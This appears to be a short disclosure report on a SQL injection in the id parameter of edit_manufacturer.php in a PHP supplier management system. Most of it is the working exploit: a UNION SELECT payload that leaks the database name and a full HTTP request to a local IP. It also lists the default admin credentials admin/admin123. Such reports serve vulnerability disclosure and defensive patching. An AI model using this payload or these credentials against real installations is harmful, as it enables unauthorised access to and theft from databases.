 # Supplier Management System v1.0 has SQL injection

BUG_AUTHOR: 姚炜柏

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/supplier-management-system-using-php-mysql/

Vulnerability File: /Supply_Management_System/admin/edit_manufacturer.php?id=

Vulnerability location: /Supply_Management_System/admin/edit_manufacturer.php, id

Current database name: sourcecodester_scm_new

[+] Payload: /Supply_Management_System/admin/edit_manufacturer.php?id=-1%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /Supply_Management_System/admin/edit_manufacturer.php?id=-1%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a5t02g11mg2iq4r6p3m3ctqa00
Connection: close
```

![image](https://github.com/user-attachments/assets/6cdd4192-0543-41b7-ba08-b5b51ef5d968)
